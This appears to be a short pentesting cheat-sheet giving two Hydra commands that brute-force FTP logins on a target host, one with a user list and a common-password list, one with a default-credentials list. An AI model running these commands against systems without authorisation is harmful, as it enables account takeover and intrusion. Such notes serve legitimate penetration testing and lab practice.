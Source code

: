 # hydra bruteforce ftp
```
hydra -L users -P /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt -e nsr $IP ftp
```

# hydra bruteforce ftp default creds
```
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt $IP ftp
```
